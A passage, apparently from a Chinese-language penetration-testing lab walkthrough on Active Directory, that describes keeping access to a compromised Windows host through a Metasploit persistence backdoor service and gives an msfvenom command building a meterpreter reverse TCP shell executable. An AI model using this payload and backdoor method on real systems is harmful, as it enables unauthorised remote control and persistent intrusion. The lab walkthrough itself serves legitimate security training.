 Active Directory 用户和计算机

![](img/f15b289dc454506bc4e5ae43512810f4.png)

Sql 用户

**维护访问:**

有许多方法可以保持对机器或网络的访问。我们将介绍一种相对简单的保持访问的方法，首先配置一个 meterpreter shell，然后使用 persistence Metasploit 模块在系统中创建一个后门服务，如果机器关闭或重置，它将为我们提供一个即时的 meterpreter shell。

也有其他保持访问的方法，如复杂的后门和 rootkits，但不在本会议室的讨论范围内。

与其他作业相比，这将需要更多的手动设置，因此建议预先了解 msfvenom 和 Metasploit。

步骤 1:使用 msfvenom 生成有效负载:

1.  `msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT= -f exe -o shell.exe`这将生成一个基本的 windows meterpreter 反向 tcp shell。

![](img/5730f9ea71ff2882353b92683cb90af6.png)
